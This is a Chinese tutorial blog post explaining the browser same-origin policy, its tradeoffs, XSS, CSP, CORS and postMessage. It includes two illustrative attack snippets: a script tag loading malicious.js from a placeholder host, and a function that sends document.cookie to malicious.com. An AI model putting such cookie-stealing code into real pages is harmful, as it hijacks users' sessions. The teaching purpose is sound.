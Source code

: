 ```yaml
---
title: 浏览器安全——同源策略
date: 2019-12-23 17:25:09
tags: [JS, 浏览器工作原理与实践]
categories: 
 - 前端
 - JS
---
```


# 什么是同源策略
要了解什么是同源策略，我们得先来看看什么是同源。

如果两个 URL 的协议、域名和端口都相同，我们就称这两个 URL 同源。比如下面这两个 URL，它们具有相同的协议 HTTPS、相同的域名`www.baidu.com`，以及相同的端口 443，所以我们就说这两个 URL 是同源的。
```
https://www.baidu.com/?category=1
https://www.baidu.com/?category=0
```
浏览器默认两个相同的源之间是可以相互访问资源和操作 DOM 的。两个不同的源之间若想要相互访问资源或者操作 DOM，那么会有一套基础的安全策略的制约，我们把这称为同源策略。

具体来讲，同源策略主要表现在 DOM、Web 数据和网络这三个层面。
## 第一个，DOM 层面
同源策略限制了来自不同源的 JavaScript 脚本对当前 DOM 对象读和写的操作。

打开第一个网页，然后再从第一个网页中打开另外一个页面。由于第一个页面和第二个页面是同源关系，所以我们可以在第二个页面中操作第一个页面的 DOM，比如将第一个页面全部隐藏掉，代码如下所示：
```js
{
  let pdom = opener.document
  pdom.body.style.display = "none"
}
```
该代码中，对象`opener`就是指向第一个页面的`window`对象，我们可以通过操作`opener`来控制第一个页面中的 DOM。

我们在第二个页面的控制台中执行上面那段代码，就成功地操作了第一个页面中的 DOM，将页面隐藏了。

不过如果打开的第二个页面和第一个页面不是同源的，那么它们就无法相互操作 DOM 了。
## 第二个，数据层面
同源策略限制了不同源的站点读取当前站点的`Cookie、IndexDB、LocalStorage`等数据。由于同源策略，我们依然无法通过第二个页面的`opener`来访问第一个页面中的`Cookie、IndexDB`或者`LocalStorage`等内容。
## 第三个，网络层面
同源策略限制了通过`XMLHttpRequest`等方式将站点的数据发送给不同源的站点。
# 安全和便利性的权衡
我们了解了同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。

不过安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得 Web 项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是 XSS 攻击和 CSRF 攻击。
## 1. 页面中可以嵌入第三方资源
Web 世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 HTML 文件、JavaScript 文件、CSS 文件、图片等资源都部署在同一台服务器上，这无疑违背了 Web 的初衷，也带来了诸多限制。比如将不同的资源部署到不同的 CDN 上时，CDN 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。

所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往 HTML 文件中插入恶意脚本。

比如，恶意程序在 HTML 文件内容中插入一段 JavaScript 代码：
```html
<script src="http://xxx.com/malicious.js"></script>
```

当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

除此之外，它还能将页面的的敏感数据，如`Cookie、IndexDB、LoacalStorage`等数据通过 XSS 的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：
```js
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```
在这段代码中，恶意脚本读取`Cookie`数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的`Cookie`信息。

以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码。通过这些手段就可以大大减少 XSS 攻击。
## 2. 跨域资源共享和跨文档消息机制
默认情况下，如果打开第一个页面，在第一个页面中通过`XMLHttpRequest`或者`Fetch`来请求第二个页面中的资源，这时同源策略会阻止其向第二个页面发出请求，这样会大大制约我们的生产力。

为了解决这个问题，我们引入了跨域资源共享（CORS），使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。

如果两个页面不是同源的，则无法相互操纵 DOM。不过在实际应用中，经常需要两个不同源的 DOM 之间进行通信，于是浏览器中又引入了跨文档消息机制，可以通过`window.postMessage`的 JavaScript 接口来和不同源的 DOM 进行通信。
# 总结
同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。

不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：
* 页面中可以引用第三方资源，不过这也暴露了很多诸如 XSS 的安全问题，因此又在这种开放的基础之上引入了 CSP 来限制其自由程度。
* 使用`XMLHttpRequest`和`Fetch`都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。
* 两个不同源的 DOM 是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信。